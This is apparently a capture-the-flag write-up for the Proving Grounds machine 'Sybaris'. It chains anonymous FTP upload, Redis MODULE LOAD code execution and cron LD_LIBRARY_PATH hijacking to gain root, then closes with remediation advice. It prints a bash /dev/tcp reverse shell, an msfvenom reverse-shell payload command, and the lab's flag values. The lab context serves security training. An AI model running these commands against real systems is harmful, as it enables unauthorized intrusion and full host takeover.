| **Details**    | **Values**                             |
| :------------- | :-----------------------------------   |
| **Platform**   | `Proving Grounds`                      |
| **Machine**    | `Sybaris`                              |
| **Difficulty** | `Medium`                               |
| **OS**         | `Linux`                                |
| **Key Skills** | `RCE`, `FTP`, `Redis RCE`, `cron job`  |
| **Tools Used** | `Nmap`, `linpeas.sh`, `Reverse Shell`  |

## Overview
[Sybaris] is a Linux machine that features an improperly configured [Redis] server, allowing for arbitrary module loading. This vulnerability is leveraged by uploading a malicious module through an anonymous FTP service to gain initial execution. Privilege escalation to root is achieved by exploiting a cron job that runs with a writable `LD_LIBRARY_PATH`, enabling the execution of a malicious shared object file with highest privileges.

## 1. Reconnaissance

### 1.1 Nmap Enumeration
Nmap scan to enumerate open ports and services.
```bash
nmap -sV -sC -A -O -p- --open -oN enum/fingerpring-scan.log $ip
```

**Nmap Scan Result**: 

### Open Ports & Services

| Port     | State | Service | Version                                  | Notes                |
| -------- | ----- | ------- | ---------------------------------------- | -------------------- |
| 21/tcp   | open  | ftp     | vsftpd 3.0.2                             |                      |
| 22/tcp   | open  | ssh     | OpenSSH 7.4                              |                      |
| 80/tcp   | open  | http    | Apache httpd 2.4.6 ((CentOS) PHP/7.3.22) |                      |
| 6379/tcp | open  | redis   | Redis key-value store 5.0.9              |                      |

<!-- Optional: Add a full port scan if necessary -->
<!-- ### 1.2 Full Port Scan 
```bash 
nmap -p- --min-rate 1000 -T4 -oA enum/nmap_full $ip 
```
-->

## 2. Enumeration

### 2.1 [HTTP / 80] Enumeration
Browsing to http on port 80 has website build in with `HTMLy` but it's a rabbit hole and found nothing useful here except `pablo` maybe a user?

**Findings:**
- `bablo` possible user.



### 2.2 [FTP / 21] Enumeration
```bash
ftp $ip
anonymous
anonymous
ls
put filename.php
```
FTP port 21 allows for anonymous login and was able to `put` write files into the public directory.

For now I know I have read and write permission on the ftp server. I uploaded test.php but when tried to access it on the port 80 it is not there. Not sure where it uploads so let move on to the next port which has`Redis` running on port `6379`

### 2.2 [Redis / 6379] Enumeration

To exploit the exposed Redis service, research was conducted on potential attack vectors. The [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html#load-redis-module) Pentesting Redis guide identified a critical path to RCE by abusing the `MODULE LOAD` functionality. The prerequisites for this exploit are:**

1. **The ability to upload a `.so` module file to the target filesystem.**
2. **Access to the `Redis CLI` to issue the load command.**

These conditions were met: the anonymous FTP service allowed for file uploads, and the Redis service required no authentication. A malicious Redis module (`module.so`) was obtained from a proof-of-concept [Github](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand?source=post_page-----d77bb0b55b1c---------------------------------------) repository linked in the guide, uploaded to the server via FTP, and loaded using the Redis CLI, resulting in command execution.
## 3. Initial Foothold / Exploitation

Download the module from the [Github]() and run `make` to make the `module.so` on the `/src/module.so` directory. then using the ftp to upload the `module.so` to the server. 
- **FTP upload**: we can upload module.so file to the server via ftp. 
- *Note:* ftp from same directory where the `module.so` is located for easy transfer.

```bash
ftp -p 192.168.195.93
# login with anonymous:anonymous
cd pub
put module.so
```


**Redis Login**: using the `redis-cli` and load the module. 

```bash
redis-cli -h 192.168.195.93
MODULE LOAD /var/ftp/pub/module.so
system.exec "id"
```
Our upload was success and was able to load the module.so and run the `system.exe "id"` commands. Let's get a reverse shell.
### 3.2 Reverse Shell
Before running the command below we need to start a listener on the kali. `nc -lvnp 6379` 
```bash
system.exec "/bin/bash -i >& /dev/tcp/192.168.45.247/6379 0>&1"
```


### 3.3 User flag: 
The `local.txt` was found under the user `pablo/home` 

```bash
b121bce5024edff1ba2031af87ff6c12
```


## 4. Privilege Escalation

### 4.1 Enumeration Cron Jobs 
Running `linpeas.sh` discovered /etc/crontab contains a root-run entry that runs every minute.
```
linpeas.sh
```

```bash
cat /etc/crontab
```



We also note that this crontab file includes a custom `LD_LIBRARY_PATH` variable which adds **/usr/local/lib/utils** and **/usr/local/lib/dev** to the list of locations to search for library files. If we check these paths, we find that we only have write access to **/usr/local/lib/dev**, which is perfect for our use since it appears first in the path.



```bash
[pablo@sybaris tmp]$ ls -lah /usr/local/lib/dev
total 0
drwxrwxrwx  2 root root  6 Sep  7  2020 .
drwxr-xr-x. 4 root root 30 Sep  7  2020 ..
[pablo@sybaris tmp]$ ls -lah /usr/local/utils  
ls: cannot access /usr/local/utils: No such file or directory
[pablo@sybaris tmp]$ ls -lah /usr/local/lib/utils
total 12K
drwxr-xr-x. 2 root root   22 Sep  4  2020 .
drwxr-xr-x. 4 root root   30 Sep  7  2020 ..
-rwxr-xr-x. 1 root root 8.1K Sep  4  2020 utils.so

```
The list of shared objects loaded by **/usr/bin/log-sweeper** includes the **utils.so** shared object which may be a good candidate for hijacking.



## 4.2 Exploit Cron Job
To exploit out `log_sweeper` cron job, all we need to do is generate a milicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev` directory. First, we'll generate out malicious payload shareed object `.so` file.

```bash
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=192.168.45.247 LPORT=6379
```


### NC LISTENER:
Start netcat listener to catch the reverse shell on port 6379

```bash
nc -lvnp 6379
```


Upload the `utils.so` shared object to anonymous ftp. 

```bash
ftp 192.168.195.93 # anonymous:anonymous
cd pub
put utils.so
```



Move payload `utils.so` to `/usr/local/lib/dev` directory

```bash
cp /var/ftp/pub/utils.so /usr/local/lib/dev/utils.so
```


Finally, We wait for the cron job to execute, load our payload send us out reverse root shell. 



### 4.3 Root Flag

The root flag was located at /root/proof.txt
```
5aca8167187e35aebfe5dce541f487a0
```

## 5. Conclusion & Lessons Learned

The Sybaris machine provided an excellent exercise in chaining multiple misconfigurations to achieve full compromise. The attack path leveraged improper service configurations and a fundamental misunderstanding of library loading mechanisms.
### **Vulnerability Summary:**

- **Initial Access:** Achieved by exploiting an unauthenticated Redis server's `MODULE LOAD` command. The prerequisite for uploading a malicious module was met through an anonymous FTP service with write permissions.
    
- **Privilege Escalation:** Root access was obtained by exploiting a cron job owned by root that utilized a writable directory in its `LD_LIBRARY_PATH`. This allowed for hijacking the execution flow by planting a malicious shared object (`utils.so`), which was loaded instead of the legitimate library.
    

### **Defensive Takeaways & Remediation:**

**1. Service Hardening & Access Control:**

- **Redis:** **Never** expose Redis to untrusted networks without authentication. Configure the `requirepass` directive in `redis.conf` with a strong password. If internal use is required, implement strict firewall rules to limit access to trusted IPs only. Consider renating or disabling dangerous commands like `MODULE LOAD` using the `rename-command` configuration directive.
    
- **FTP:** Disable anonymous login if it is not an absolute business requirement. If anonymous access is necessary, ensure it is read-only and confined to a tightly restricted directory jail that is separate from the web root or other sensitive locations.
    

**2. Secure Cron Job Configuration:**

- **Principle of Least Privilege:** Cron jobs, especially those running as root, must be designed with extreme care. Avoid setting custom `LD_LIBRARY_PATH` or `PATH` variables that include world-writable directories.
    
- **Secure Library Loading:** Always use absolute paths for loaded libraries in critical applications and scripts, or explicitly specify the `RPATH` during compilation. This prevents the dynamic linker from searching in unexpected and potentially hostile directories.
    
- **File Permissions Audit:** Regularly audit file permissions on system directories, especially those referenced by system processes and cron jobs. Directories like `/usr/local/lib/` should not be globally writable. The command `find / -writable -type d 2>/dev/null | grep -v -E '/proc|/dev|/sys|/run'` can help identify such misconfigurations.
    

**3. General System Hardening:**

- **Network Segmentation:** Use firewalls to segment networks and ensure that internal services like Redis and FTP are not exposed beyond where they are needed.
    
- **Monitoring & Logging:** Implement robust logging and monitoring for service authentication attempts (especially failed ones on Redis and FTP), file uploads via FTP, and the loading of unexpected modules or shared libraries by system processes. An alert for a `MODULE LOAD` command on a production Redis instance should be a high-priority event.
        
- **Offensive Takeaways:** 

-  **Research is Key:** This box highlights the importance of knowing specific service exploitation techniques beyond standard vulnerabilities. Resources like HackTricks are invaluable for understanding attack vectors for various services.
    
- **Chaining Misconfigurations:** A single misconfiguration (e.g., writable FTP) often enables the exploitation of another (e.g., unauthenticated Redis). Thorough enumeration of every finding is critical.
    
- **Understanding Linux Internals:** Privilege escalation often hinges on abusing core Linux functionalities like cron, SUID binaries, and environment variables (`LD_LIBRARY_PATH`, `PATH`). A deep understanding of these mechanisms is essential for advanced exploitation.
- 
- **Weaponizing Upload Capabilities:** The simple ability to upload a file is often the key to gaining a foothold. Always ask, "What can I do with this upload capability?" (e.g., web shells, malicious modules, libraries, SSH keys).
